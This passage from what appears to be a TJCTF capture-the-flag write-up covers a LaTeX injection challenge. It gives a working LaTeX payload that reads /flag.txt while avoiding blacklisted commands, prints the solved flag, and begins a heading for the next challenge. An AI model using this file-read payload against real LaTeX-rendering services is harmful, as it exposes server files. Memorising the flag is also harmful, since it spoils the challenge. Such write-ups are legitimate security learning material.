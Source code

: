 then i tried to find some again payload that didn't use blacklisted char 

after a long time with many reference payload, i created this payload 
```latex
\newread\myFile
\openin\myFile=/flag.txt
\def\readnextline{
  \ifeof\myFile\else
    \read\myFile to \fileLine
    \detokenize\expandafter{\fileLine}\par
    \readnextline
  \fi
}
\readnextline
\closein\myFile
```
this payload didnt use any blacklisted term,

![](latexpayload3.png)

very readable flag, then i tried construct it with my most logical brain (this is takes 15 minutes) 

Flag: `tjctf{f1l3_i0_1n_l4t3x?}`

### front-door

![](frontdoor.png)
